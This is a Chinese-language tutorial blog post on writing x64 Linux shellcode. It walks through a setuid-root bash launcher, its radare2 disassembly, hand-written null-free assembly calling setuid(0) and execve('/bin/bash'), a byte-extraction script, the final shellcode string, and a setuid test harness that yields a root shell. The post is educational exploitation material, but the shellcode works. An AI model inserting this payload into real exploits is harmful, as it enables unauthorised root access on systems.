 ```yaml
---
layout: post
title: 'shellcode x64'
subtitle: 'shellcode编写'
tags: 安全 逆向 shellcode linux
---
```


# retsh.c

```C
// retsh.c

#include<unistd.h>

char* buff[] = {
    "/bin/bash"
};

void main(){
    setuid(0);
    execve("/bin/bash", buff, NULL);
}
```

```bash
rz$ gcc retsh.c -static -o retsh
rz$ sudo chown root.root retsh
rz$ sudo chmod u+s retsh
rz$ ./retsh
root# whoami
root
```

# 分析生成的文件

```bash
rz$ r2 retsh

> s main
> pdf
|   sym.main ();
|           0x00400b4d      55             push rbp
|           0x00400b4e      4889e5         mov rbp, rsp
|           0x00400b51      bf00000000     mov edi, 0
|           0x00400b56      e8957f0400     call sym.__setuid    # setuid
|           0x00400b5b      ba00000000     mov edx, 0
|           0x00400b60      488d3589852b.  lea rsi, obj.buff           ; 0x6b90f0
|           0x00400b67      488d3d561409.  lea rdi, str.bin_bash       ; 0x491fc4 ; "/bin/bash"
|           0x00400b6e      e84d7f0400     call sym.execve      # execve

> s sym.__setuid
> pdf
|   sym.__setuid (int arg1);
|           0x00448af0      4883ec38       sub rsp, 0x38               ; '8'
|           0x00448af4      64488b042528.  mov rax, qword fs:[0x28]    ; [0x28:8]=-1 ; '(' ; 40
|           0x00448afd      4889442428     mov qword [local_28h], rax
|           0x00448b02      31c0           xor eax, eax
|           0x00448b04      48833dc40427.  cmp qword [0x006b8fd0], 0
|       ,=< 0x00448b0c      752a           jne 0x448b38
|       |   0x00448b0e      b869000000     mov eax, 0x69               ; 'i' ; 105
|       |   0x00448b13      0f05           syscall

> s sym.execve
> pdf
|   sym.execve ();
|           0x00448ac0      b83b000000     mov eax, 0x3b               ; ';' ; 59
|           0x00448ac5      0f05           syscall
```

如上，编写相应的汇编代码

注：`/bin/bash`转换为16进制表示为`0x2f62696e2f62617368`，由于内存中是小端存储，将其反转为`0x687361622f6e69622f`，长度18，可以先将`0x68`压栈，在将`0x7361622f6e69622f`压栈，此时，`rsp`所指向的字符串为`/bin/bash`，将rdi指向此处即可。

```asm
; shell.asm

global _start

_start:

xor rdi, rdi
; setuid(0)
xor eax, eax
mov al, 0x69
syscall         ; setuid

xor rax, rax
mov al, 0x68
push rax
mov rax, 0x7361622f6e69622f
push rax
mov rdi, rsp    ; str.bin_bash; "/bin/bash"

xor rax, rax
push rax
mov rax, rsp
push rax        ; 此时rsp就是 "/bin/bash"地址的指针
mov rsi, rsp    ; obj.buff; {"/bin/bash"}

;xor rsi, rsi
xor edx, edx      ; edx

; execve("/bin/bash", {"/bin/bash"}, NULL) 
xor eax, eax
mov al, 0x3b
syscall         ; execve
```

编译链接

```bash
rz$ nasm -f elf64 shell.asm -o shell.o
rz$ ld shell.o -o shell
```

# 提取shellcode

```shell
# extract.sh

if [ $# != 1 ]; then
    echo "Usage: $1 obj.o"
else
    for i in `objdump -d $1 | grep "^[[:space:]]*[0-9a-f]\+:" | cut -f 2`; do
        echo -n \\x$i
    done
    echo
fi
```

在提取之前先观察shellcode，会发现很多00字符，需要进行修改过滤掉这些怀字符，如下：

- 修改前：
    ![修改前](/assets/img/md/2018-07-12-735435745.png)
- 修改后：
    ![修改后](/assets/img/md/2018-07-12-4106904479.png)

之后提取shellcode:

`
\x48\x31\xff\x31\xc0\xb0\x69\x0f\x05\x48\x31\xc0\xb0\x68\x50\x48\xb8\x2f\x62\x69\x6e\x2f\x62\x61\x73\x50\x48\x89\xe7\x48\x31\xc0\x50\x48\x89\xe0\x50\x48\x89\xe6\x31\xd2\x31\xc0\xb0\x3b\x0f\x05
`

# 验证

为了验证shellcode可以编写一个简单的c程序：

```C
#include<stdio.h>

char* shellcode = "\x48\x31\xff\x31\xc0\xb0\x69\x0f\x05"
"\x48\x31\xc0\xb0\x68\x50\x48\xb8\x2f\x62\x69"
"\x6e\x2f\x62\x61\x73\x50\x48\x89\xe7\x48\x31\xc0\x50\x48"
"\x89\xe0\x50\x48\x89\xe6\x31\xd2\x31\xc0\xb0\x3b\x0f\x05";

void main(){
    puts("shellcode ～～～");
    ((void (*)(void))shellcode)(); //将shellcode当作函数执行
}
```

```bash
rz$ gcc shell.c -o shell.out
rz$ sudo chown root.root shell.out
rz$ sudo chmow u+s shell.out
rz$ ./shell.out
root# whoami
root
```

[代码](https://github.com/rzte/the-art-of-exploitation.git)
